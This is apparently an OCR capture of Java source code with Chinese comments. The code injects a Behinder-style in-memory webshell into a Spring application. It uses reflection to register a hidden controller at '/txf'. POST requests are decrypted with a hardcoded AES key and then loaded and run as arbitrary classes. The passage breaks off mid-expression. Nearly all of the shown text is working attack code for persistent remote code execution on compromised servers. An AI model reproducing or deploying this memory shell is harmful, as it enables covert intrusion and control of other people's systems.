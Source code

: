 ```java
        RequestMappingHandlerMapping mappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
        // 通过反射获得自定义 controller 中唯一的 Method 对象
        Method method = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping").getDeclaredMethod("getMappingRegistry");
        // 属性被 private 修饰，所以 setAccessible true
        method.setAccessible(true);
        // 通过反射获得该类的cmd方法
        Method method2 = EvalCodeInjectBehinder.class.getMethod("cmd");
        // 定义该controller的path
        PatternsRequestCondition url = new PatternsRequestCondition("/txf");
        // 定义允许访问的HTTP方法
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，避免无限循环使用另一个构造方法
        EvalCodeInjectBehinder injectToController = new EvalCodeInjectBehinder(null);
        // 将该controller注册到Spring容器
        mappingHandlerMapping.registerMapping(info, injectToController, method2);

    }

     EvalCodeInjectBehinder(java.lang.ClassLoader c) {
        super(c);
    }

    public Class g(byte[] b) {
        // 调用父类的defineClass函数 , 相当于自定义加载类
        //这句代码将返回一个 java.lang.Class 对象。这个类对象表示通过字节数组 b 中的类文件数据动态加载的类。
        // defineClass 方法用于将二进制数据转换为类的实例。
        return super.defineClass(b, 0, b.length);
    }

    // 处理远程命令执行请求
    public void cmd() throws Exception {
        
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        //注入冰蝎
        if (request.getMethod().equals("POST")) {

            HttpSession session = request.getSession();


            String k = "11f55fd0e183fb8b";/*该密钥为连接密码32位md5值的前16位，连接密码nopass*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));

            HashMap<Object, Object> pageContext = new HashMap<>();
            pageContext.put("request",request);
            pageContext.put("response",response);
            pageContext.put("session",session);
            new EvalCodeInjectBehinder(this.getClass().getClassLoader())

                    //调用方法g 加载一个类
                    .g(
                            c.doFinal(
                                    //sun.misc.BASE64Decoder 类被用于解码 HTTP POST 请求中的数据，
                                    // 该数据经过 BASE64 编码。这个操作通常在服务器端用于处理客户端传递的数据，
```